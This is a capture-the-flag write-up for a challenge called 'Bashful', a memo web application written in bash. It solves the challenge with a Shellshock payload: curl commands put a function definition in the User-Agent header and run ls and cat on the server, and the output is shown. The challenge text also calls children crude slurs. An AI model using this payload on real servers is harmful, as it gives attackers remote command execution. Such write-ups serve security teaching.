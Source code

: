 # Bashful

## Problem

"How did I end up here?" is the only question you can think of since you've become a high school teacher. Let's face it, you hate children. Bunch of egocentric retards. Anyway, you are not going to take it anymore. It's time to have your little midlife crisis right in the face of these fuckers.

Good thing that you're in the middle of some project days and these little dipshits wrote a simple message storing web application. How cute. It's written in bash... that's... that's... aw- no... bashful. You've got the source, you've got the skills. 0wn the shit out of this and show them who's b0ss.

[Challenge](https://school.fluxfingers.net:1503/) (up as of 25 Oct, 2015)

[Source](bashful.tar.bz2)

## Solution

Credit: [@emedvedev](https://github.com/emedvedev)

**Note**: we'll be taking a shortcut not originally intended by the challenge developers, so if you'd like to know how to properly exploit a website written in bash (no, grandson, we don't normally do that here in 2015, don't be frightened), find another write-up.

The site in question is a memo service: it gives you a `sessid` and lets you write memos while escaping all the special chars. There's also a `DEBUG` parameter, a vulnerability allowing you to mess with environment variables, and the `sessid` itself could be exploited, too, so there's probably a million ways to solve it. Well, disregard all that: it's written in Bash, so why try hard when you have [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))?

```
$ curl -H "User-Agent: () { :; }; /bin/ls" https://school.fluxfingers.net:1503/
404.sh
flag
home.html
home.sh
index.sh

$ curl -H "User-Agent: () { :; }; /bin/cat flag" https://school.fluxfingers.net:1503/
flag{as_classic_as_it_could_be}
```

Done.

Again, that was not an intended solution, but there's still something to learn here: even if you're as security-conscious as most CTF organizers, eventually there _will_ be an attack vector you neglected, more often than not a stupidly simple one. Pay attention to the little things, be vigilant and go patch your Bash. Right now.
